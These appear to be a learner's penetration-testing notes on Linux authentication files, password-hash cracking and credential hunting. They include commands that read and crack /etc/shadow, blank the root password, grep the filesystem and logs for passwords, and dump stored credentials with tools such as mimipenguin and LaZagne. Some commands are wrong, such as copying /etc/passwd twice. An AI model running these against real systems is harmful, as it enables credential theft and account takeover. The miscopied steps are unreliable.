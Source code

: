 # Linux Authentication
- Different authentication mechanisms supported
- Most commonly: Pluggable Authentication Modules (PAM)
	- Modules respondible for this funcitonality like `pam_unix.so` are typically in `/usr/lib/x86_64-linux-gnu/security/`
	- `pam_unix.so` responsible for updating account ingo
		- Reads/writes to `/etc/passwd` and `/etc/shadow

`/etc/passwd`
- Info about every user, 7 fields
- Password field
	- rare cases it holds the actual password hash
	- usually find the value `x`, meaning it stored as hash in `/etc/shadow`
- If this is writeable (by mistake)
	- can just remove the password field for the `root user entirely`
	- `root::0:0:root:/root:/bin/bash
		- second field, password, is empty
	- then can just become root without password
		- `su`

`/etc/shadow`
- Solely responsible for password storage and management
- 9 fields
- Password field
	- If contains a character like `!` or `*`, user cannot login with Unix password, but other authentication methods like Kerberos can be used
	- Same if Password field empty, ie. no password required for login
	- Fixed format
		- `$<id>$<salt>$<hashed>

|ID|Cryptographic Hash Algorithm|
|---|---|
|`1`|[MD5](https://en.wikipedia.org/wiki/MD5)|
|`2a`|[Blowfish](https://en.wikipedia.org/wiki/Blowfish_\(cipher\))|
|`5`|[SHA-256](https://en.wikipedia.org/wiki/SHA-2)|
|`6`|[SHA-512](https://en.wikipedia.org/wiki/SHA-2)|
|`sha1`|[SHA1crypt](https://en.wikipedia.org/wiki/SHA-1)|
|`y`|[Yescrypt](https://github.com/openwall/yescrypt)|
|`gy`|[Gost-yescrypt](https://www.openwall.com/lists/yescrypt/2019/06/30/1)|
|`7`|[Scrypt](https://en.wikipedia.org/wiki/Scrypt)|

Opasswd
- `pam_unix.so` can prevent users reusing old passwords
- Previous passwords stored in `/etc/security/opasswd` file
	- Take note of the kind of hash used!
		- Because the MD5 (`$1$`) algo significantly easier to crack than SHA-512

## Cracking Linux Credentials
1. Copy the 2 important files into temporary files
	- `sudo cp /etc/passwd /tmp/passwd.bak 
	- `sudo cp /etc/passwd /tmp/passwd.bak `
2. Use unshadow on the temporary files
	- `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
3. Attack the unshadowed file with JtR or hashcat
	- `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`

# Credential Hunting
- Sources: 
	- Files - configs, databases, source code, cronjobs, SSH keys..
	- History - logs, CLI history
	- Memory - cache, in-mem processing
	- Key-rings - browser stored creds
- Everything is a file in Linux
	- Should go by categories
		- Config files, databases, notes, scripts, cronjobs, ssh keys
	- Searching for config files
		- `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
	- Or search directly 
		- `for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done`
			- For each file with file extension .cnf, search for 3 words: user, password, pass
	- Apply the same for other file extensions
		- `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`
	- Searching for notes
		-  `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
	- Searching for scripts
		- `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`
	- Cronjobs
		- `cat /etc/crontab`
	- History files
		- `cat .bash_history`
		- `.bashrc` and `.bash_profile` also can contain important information
	- Logs
		- Logs found in `/var/log/..
		- `for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done`

| **File**              | **Description**                                    |
| --------------------- | -------------------------------------------------- |
| `/var/log/messages`   | Generic system activity logs.                      |
| `/var/log/syslog`     | Generic system activity logs.                      |
| `/var/log/auth.log`   | (Debian) All authentication related logs.          |
| `/var/log/secure`     | (RedHat/CentOS) All authentication related logs.   |
| `/var/log/boot.log`   | Booting information.                               |
| `/var/log/dmesg`      | Hardware and drivers related information and logs. |
| `/var/log/kern.log`   | Kernel related warnings, errors and logs.          |
| `/var/log/faillog`    | Failed login attempts.                             |
| `/var/log/cron`       | Information related to cron jobs.                  |
| `/var/log/mail.log`   | All mail server related logs.                      |
| `/var/log/httpd`      | All Apache related logs.                           |
| `/var/log/mysqld.log` | All MySQL server related logs.                     |
|                       |                                                    |
- Memory and cache
	- Credentials stored in memory/in files to be reused
		- Mimi penguin
			- `sudo git clone https://github.com/huntergregal/mimipenguin
			- `sudo python3 mimipenguin.py`
			- or `sudo ./mimipenguin.sh`
		- LaZagne
			- `sudo git clone https://github.com/AlessandroZ/LaZagne
			- `sudo python2.7 laZagne.py all
		- Browser credentials
			- `python3 laZagne.py browsers`
			- or `python3.9 firefox_decrypt.py